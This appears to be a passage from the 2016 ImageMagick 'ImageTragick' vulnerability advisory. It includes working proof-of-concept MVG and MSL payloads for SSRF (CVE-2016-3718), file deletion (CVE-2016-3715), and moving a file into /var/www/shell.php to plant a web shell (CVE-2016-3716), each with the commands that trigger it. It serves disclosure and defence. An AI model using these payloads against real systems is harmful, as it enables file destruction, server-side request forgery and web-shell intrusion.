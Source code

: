 ImageMagick tries to guess the type of the file by it's content, so exploitation doesn't depend on the file extension. You can rename exploit.mvg to exploit.jpg or exploit.png to bypass file type checks. In addition, ImageMagick's tool identify is also vulnerable, so it can't be used as a protection to filter file by it's content and creates additional attack vectors (e.g. via less exploit.jpg', because identify is invoked via lesspipe.sh).

Ubuntu 14.04 and OS X, latest system packages (ImageMagick 6.9.3-7 Q16 x86_64 2016-04-27 and ImageMagick 6.8.6-10 2016-04-29 Q16) and latest sources from 6 and 7 branches all are vulnerable. Ghostscript and wget (or curl) should be installed on the system for successful PoC execution. For svg PoC ImageMagick's svg parser should be used, not rsvg.

All other issues also rely on dangerous ImageMagick feature of external files inclusion from any supported protocol in formats like svg and mvg.

**CVE-2016-3718 -** SSRF
It is possible to make HTTP GET or FTP request:

**ssrf.mvg**
```
push graphic-context
viewbox 0 0 640 480
fill 'url(http://example.com/)'
pop graphic-context
```
the following then makes an http request to example.com
```
$ convert ssrf.mvg out.png
```

**CVE-2016-3715 -** File deletion
It is possible to delete files by using ImageMagick's 'ephemeral' pseudo protocol which deletes files after reading:

**delete_file.mvg**
```
push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 'ephemeral:/tmp/delete.txt'
popgraphic-context
```
```
$ touch /tmp/delete.txt
$ convert delete_file.mvg out.png # deletes /tmp/delete.txt
```
**CVE-2016-3716 -** File moving
It is possible to move image files to file with any extension in any folder by using ImageMagick's 'msl' pseudo protocol. msl.txt and image.gif should exist in known location - /tmp/ for PoC (in real life it may be web service written in PHP, which allows to upload raw txt files and process images with ImageMagick):

**file_move.mvg**
```
push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 'msl:/tmp/msl.txt'
popgraphic-context
```
**/tmp/msl.txt**
```
<?xml version="1.0" encoding="UTF-8"?>
<image>
<read filename="/tmp/image.gif" />
<write filename="/var/www/shell.php" />
</image>
```
